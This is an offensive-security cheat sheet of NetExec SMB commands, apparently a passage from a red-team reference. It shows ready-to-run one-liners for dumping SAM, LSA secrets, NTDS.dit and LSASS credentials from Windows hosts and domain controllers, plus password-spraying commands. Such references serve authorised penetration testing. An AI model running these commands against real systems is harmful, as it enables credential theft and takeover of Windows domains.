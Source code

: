 ```bash
nxc smb <ip> -u <user> -p <password> -d <domain> --sam
```

## nxc - Dump LSA
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## nxc - dump ntds.dit
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## nxc - dump lsass
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## nxc - dump lsass - with bloodhond update
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## nxc - password spray (user=password)
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
nxc smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## nxc - password spray multiple test 
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(careful on lockout)

```bash
nxc smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```
